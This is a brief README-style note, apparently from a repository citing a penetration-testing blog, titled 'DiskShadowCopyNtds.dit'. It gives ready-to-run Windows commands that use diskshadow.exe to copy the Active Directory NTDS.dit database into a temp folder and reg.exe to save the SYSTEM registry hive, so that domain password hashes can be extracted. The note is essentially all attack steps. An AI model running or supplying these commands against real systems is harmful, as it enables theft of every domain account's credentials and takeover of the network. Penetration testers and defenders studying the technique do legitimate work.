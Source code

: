# DiskShadowCopyNtds.dit

Comes from https://pentestlab.blog/tag/ntds-dit/

To copy the NTDS.dit file to C:\Windows\temp, run:

diskshadow.exe /s c:\windows\temp\diskshadow.txt

To extract password hashes, you will also get an extract of SYSTEM from the registry:

reg.exe save hklm\system c:\windows\temp\reg.bak